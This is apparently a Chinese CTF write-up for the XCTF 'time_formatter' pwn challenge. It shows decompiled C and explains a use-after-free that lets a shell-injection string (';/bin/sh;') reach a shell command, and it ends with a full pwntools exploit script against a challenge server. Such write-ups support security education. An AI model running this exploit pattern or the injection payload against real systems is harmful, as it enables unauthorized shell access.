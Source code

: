 ### 1.攻防世界 time_formatter
```C
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __gid_t v3; // eax
  FILE *v4; // rdi
  __int64 v5; // rdx
  int v6; // eax

  v3 = getegid();
  setresgid(v3, v3, v3);
  setbuf(stdout, 0LL);
  puts("Welcome to Mary's Unix Time Formatter!");
  do
  {
    while ( 2 )
    {
      puts("1) Set a time format.");
      puts("2) Set a time.");
      puts("3) Set a time zone.");
      puts("4) Print your time.");
      puts("5) Exit.");
      __printf_chk(1LL, (__int64)"> ");
      v4 = stdout;
      fflush(stdout);
      switch ( get_choice_num() )
      {
        case 1:
          v6 = set_format();
          break;
        case 2:
          v6 = set_time();
          break;
        case 3:
          v6 = set_time_zone();
          break;
        case 4:
          v6 = print_time((__int64)v4, (__int64)"> ", v5);
          break;
        case 5:
          v6 = exit();
          break;
        default:
          continue;
      }
      break;
    }
  }
  while ( !v6 );
  return 0LL;
}
```
在case4这个函数调用中看到了这个东西。
![time_formatter1](./pic/gfsj/time_formatter1.png)
试试这个shell注入`';/bin/sh;'`
![time_formatter2](./pic/gfsj/time_formatter2.png)
可以得到shell。想办法将这个字符串注入到ptr中，问题是这个set_format这个函数中存在过滤，不让使用单引号和分号。
![time_formatter3](./pic/gfsj/time_formatter3.png)
不过好在还有一个set_time_zone函数不存在过滤，并且发现在exit函数中存在`UAF`漏洞.先free再判断是否退出。
![time_formatter4](./pic/gfsj/time_formatter4.png)
那么思路就很明确了，先创建一个chunk，再free掉，再用set_time_zone把这个chunk取出,并且写入`';/bin/sh;'`，这个时候value和ptr指针都是指向这个chunk的，再调用print_time函数拿到shell。
```python
#coding=utf-8
from pwn import *


io = remote('111.198.29.45', 58222)


context.log_level = "debug"

io.recvuntil("> ")
io.sendline("1")
io.recvuntil("Format: ")
io.sendline("a")
io.recvuntil("> ")
io.sendline("5")
io.recvuntil("Are you sure you want to exit (y/N)? ")
io.sendline('s') # 不是y都行
io.recvuntil("> ")
io.sendline("3")
io.recvuntil("Time zone: ")
io.sendline("';/bin/sh;'")
io.recvuntil("> ")
io.sendline('4')
io.interactive()
```
